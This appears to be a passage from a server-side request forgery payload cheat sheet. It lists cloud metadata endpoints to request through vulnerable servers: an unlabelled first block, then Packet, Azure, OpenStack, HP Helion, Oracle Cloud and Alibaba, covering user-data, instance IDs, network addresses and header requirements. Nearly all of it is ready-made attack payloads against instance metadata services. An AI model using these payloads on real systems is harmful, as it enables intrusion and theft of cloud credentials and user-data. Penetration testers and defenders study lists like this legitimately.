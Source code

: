 ```http
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

**SSRF URL for Packetcloud**

Documentation available at `https://metadata.packet.net/userdata`

**SSRF URL for Azure**

Limited, maybe more exists? `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

http://169.254.169.254/metadata/v1/maintenance

Update Apr 2017, Azure has more support; requires the header `“Metadata: true” https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```http
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

**SSRF URL for OpenStack/RackSpace**

(header required? unknown)

```
http://169.254.169.254/openstack
```

**SSRF URL for HP Helion**

(header required? unknown)

```http
http://169.254.169.254/2009-04-04/meta-data/
```

**SSRF URL for Oracle Cloud**

```http
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

**SSRF URL for Alibaba**

```http
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```
